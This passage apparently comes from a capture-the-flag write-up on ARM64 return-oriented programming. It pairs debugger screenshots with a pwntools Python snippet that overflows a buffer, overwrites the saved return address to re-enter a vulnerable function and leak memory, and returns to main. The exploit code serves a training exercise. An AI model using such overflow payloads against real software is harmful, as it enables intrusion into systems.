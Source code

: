 ![GDB Screenshot](/assets/images/posts/baby_arm_rop/gdb_13.png)

Winner, but as you can see above, we're going to overwrite x30 now on the ret from vuln and lead to another crash, so we're going to need to control that part of our buffer to point back to the ret in main. Looking back in the stack, we see this being 40 bytes aways from where our Rs, are:

![GDB Screenshot](/assets/images/posts/baby_arm_rop/gdb_14.png)

 so let's try returning to main in the buffer there:

```python
# Set up the buffer overflow to call vuln again to leak some more
message = b"A"*0x20 #                                                        
message += b"S"*8   # Saved Frame
message += p64(elf.symbols['vuln']+0x18)   # RP overwrite - we're BOFing here to return to printf and leak more
p.sendlineafter(b"message now: ",message)
p.clean()                        
name = b"R"*0x8                                                                                                                                           
name += p64(elf.symbols['vuln']+0x1c)    # This is the original rp, right after the read call
name += b"C"*0x28                                                                                                                                         
name += p64(elf.symbols['main'])        # Ret 2 main for now
name += b"C"*0x28
p.sendline(name)
```